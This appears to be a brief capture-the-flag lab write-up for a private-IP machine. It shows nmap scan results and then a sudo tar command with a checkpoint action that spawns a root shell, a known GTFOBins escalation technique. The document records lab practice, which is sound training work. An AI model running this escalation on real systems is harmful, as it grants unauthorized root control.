


# Host:
```
192.168.227.10
```

# Nmap
```
Nmap scan report for 192.168.227.10
Host is up, received user-set (0.043s latency).
Scanned at 2024-07-06 15:26:18 IST for 508s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE         REASON         VERSION
22/tcp   open  ssh             syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 
80/tcp   open  http            syn-ack ttl 61 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: blaze
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
9090/tcp open  ssl/zeus-admin? syn-ack ttl 61
```

After getting access through ssh we can check for sudo privileges:

Now we can check gtfo bins and run the following command to get root:
```
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz * --checkpoint=1 --checkpoint-action=exec=/bin/sh
```


